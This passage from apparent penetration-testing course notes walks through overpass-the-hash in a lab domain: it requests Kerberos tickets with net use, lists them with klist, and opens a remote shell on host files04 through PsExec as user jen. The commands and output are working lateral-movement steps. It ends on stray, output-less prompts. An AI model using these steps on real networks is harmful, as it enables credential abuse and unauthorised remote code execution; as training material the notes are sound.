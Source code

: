 No Kerberos tickets have been cached, but this is expected since _jen_ has not yet performed an interactive login
+ Let's generate a TGT by authenticating to a network share on the files04 server with **`net use`**
```
PS C:\Windows\system32> net use \\files04
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```
+ The output indicates that the **net use** command was successful
+ We then used **klist** to list the newly requested Kerberos tickets, including a TGT and a TGS for the _Common Internet File System_ (CIFS) service
+ We used net use arbitrarily in this example, but we could have used any command that requires domain permissions and would subsequently create a TGS

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM) such as the official PsExec application from Microsoft
+ PsExec can run a command remotely but does not accept password hashes
+ Since we have generated Kerberos tickets and operate in the context of _jen_ in the PowerShell session, we may reuse the TGT to obtain code execution on the files04 host
+ Let's try that now, running **.\PsExec.exe** to launch **cmd** remotely on the `\\files04` machine as _jen_
``` PowerShell
PS C:\Windows\system32> cd C:\tools\SysinternalsSuite\
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname